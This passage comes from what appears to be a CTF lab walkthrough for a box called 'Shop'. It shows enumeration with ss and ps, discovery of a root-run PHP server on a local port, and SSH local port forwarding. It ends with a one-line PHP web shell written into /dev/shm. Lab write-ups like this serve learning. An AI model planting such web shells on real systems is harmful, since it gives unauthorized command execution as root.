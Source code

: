 Running linpeas.sh didn't reveal very much. 

After taking a look at a walkthrough for a hint, it suggested that we take a look atthe sockets statistics with `ss`: 
{% highlight terminal %}
bart@Shop:~$ ss -ltun 
Netid   State    Recv-Q   Send-Q      Local Address:Port        Peer Address:Port   
udp     UNCONN   0        0                 0.0.0.0:68               0.0.0.0:*      
tcp     LISTEN   0        80              127.0.0.1:3306             0.0.0.0:*      
tcp     LISTEN   0        128               0.0.0.0:65535            0.0.0.0:*      
tcp     LISTEN   0        128             127.0.0.1:65000            0.0.0.0:*      
tcp     LISTEN   0        128                     *:80                     *:*      
tcp     LISTEN   0        128                  [::]:65535               [::]:*  
{% endhighlight %}

Here we see that the machine is listening for connections on port 65000. We need to
identify what service or process is listening on the port:
{% highlight terminal %}
bart@Shop:~$ ps aux | grep '65000'
root       721  0.0  2.2 200720 22768 ?        S    00:30   0:00 php -S 127.0.0.1:65000 -t /dev/shm/
bart     25668  0.0  0.0   6088   896 pts/0    S+   02:49   0:00 grep 65000
{% endhighlight %}

Here we can see that php is listening on port 65000 and the document root is 
`/dev/shm` 

### Local Port Forwarding

Here we will use local port forwarding to access the `/dev/shm` document root. 

Setting up port forwarding with ssh:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/shop]
└─$ ssh -L 65000:127.0.0.1:65000 bart@192.168.56.254 -p65535
bart@192.168.56.254's password: 
Linux Shop 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64
bart@Shop:~$ 
{% endhighlight %}

Now that we've got a tunnel set up, let's double check that it's up:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/shop]
└─$ lsof -i:65000                             
COMMAND    PID USER   FD   TYPE  DEVICE SIZE/OFF NODE NAME
ssh     139187 kali    4u  IPv6 6671521      0t0  TCP localhost:65000 (LISTEN)
ssh     139187 kali    5u  IPv4 6671522      0t0  TCP localhost:65000 (LISTEN)
{% endhighlight %}

Let's create a web shell with the following php code:
{% highlight terminal %}
bart@Shop:~$ echo -n "<?php system(\$_GET['cmd']); ?>" > /dev/shm/cmd.php
{% endhighlight %}
